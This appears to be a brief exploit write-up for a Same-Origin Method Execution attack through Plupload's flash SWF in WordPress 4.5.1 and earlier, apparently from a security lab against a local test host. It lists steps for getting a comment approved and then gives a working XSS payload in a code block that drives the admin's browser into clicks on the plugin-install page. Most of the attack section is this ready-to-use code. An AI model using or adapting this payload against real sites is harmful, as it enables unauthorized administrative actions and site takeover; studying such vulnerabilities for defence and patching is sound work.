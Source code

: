 # The Steps
**Step 1:**
Gain trust from the admin by posting a Comment

**Step 2:** Wait for approval from the admin

**Step 3**
Inject XSS by posting the code below 
```
<button onclick="fire()">Click</button>
<script>
	function fire() { 
		open('javascript:setTimeout("location=\'http://wpdistillery.vm/wp-includes/js/plupload/plupload.flash.swf?target%g=opener.document.body.firstElementChild.nextElementSibling.nextElementSibling.nextElementSibling.firstElementChild.click&uid%g=hello&\'", 2000)');
		setTimeout('location="http://wpdistillery.vm/wp-admin/plugin-install.php?tab=plugin-information&plugin=wp-super-cache&TB_iframe=true&width=600&height=550"')
	}
</script>
```

# The types / classes of vulnerabilities involved and any related CVE identifiers
**Pupload Same-Origin Method Execution attack (SOME)**

# Affected versions 
**Affected version**
WordPress <= 4.5.1

# Demo
![](Demo.gif)
